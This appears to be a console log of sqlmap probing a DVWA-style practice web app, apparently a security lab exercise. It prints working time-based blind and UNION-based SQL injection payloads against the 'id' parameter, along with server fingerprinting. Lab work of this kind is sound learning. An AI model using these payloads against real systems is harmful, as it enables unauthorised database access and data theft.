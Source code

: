 [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:13:25 /2022-11-15/

[08:13:25] [INFO] parsing HTTP request from 'dvwa-b.txt'
<b>[08:13:25] [INFO] testing connection to the target URL</b>
[08:13:25] [INFO] checking if the target is protected by some kind of WAF/IPS
[08:13:26] [INFO] testing if the target URL content is stable
[08:13:26] [INFO] target URL content is stable
[08:13:26] [INFO] testing if GET parameter 'id' is dynamic
[08:13:27] [WARNING] GET parameter 'id' does not appear to be dynamic
[08:13:28] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[08:13:28] [INFO] testing for SQL injection on GET parameter 'id'
[08:13:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[08:13:31] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[08:13:32] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'                                                                                                
[08:13:35] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[08:13:37] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[08:13:40] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[08:13:43] [INFO] testing 'Generic inline queries'
[08:13:44] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[08:13:46] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[08:13:48] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
<b>[08:13:50] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[08:14:02] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable </b>
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[08:15:37] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[08:15:37] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[08:15:38] [WARNING] reflective value(s) found and filtering out
[08:15:47] [INFO] target URL appears to be UNION injectable with 2 columns
[08:15:49] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 69 HTTP(s) requests:
---
<b>Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=100 AND (SELECT 4544 FROM (SELECT(SLEEP(5)))tHeh)&Submit=Submit

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=100 UNION ALL SELECT NULL,CONCAT(0x71626b6271,0x705464434841515a6d76724241654f694e477a7552746b4f45717a7641435758487a614c576c4143,0x717a7a7171)-- -&Submit=Submit</b>
---
[08:16:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 5.0.12
[08:16:06] [INFO] fetched data logged to text files under '/home/kbarton/.local/share/sqlmap/output/104.198.70.155'                                                                                                 
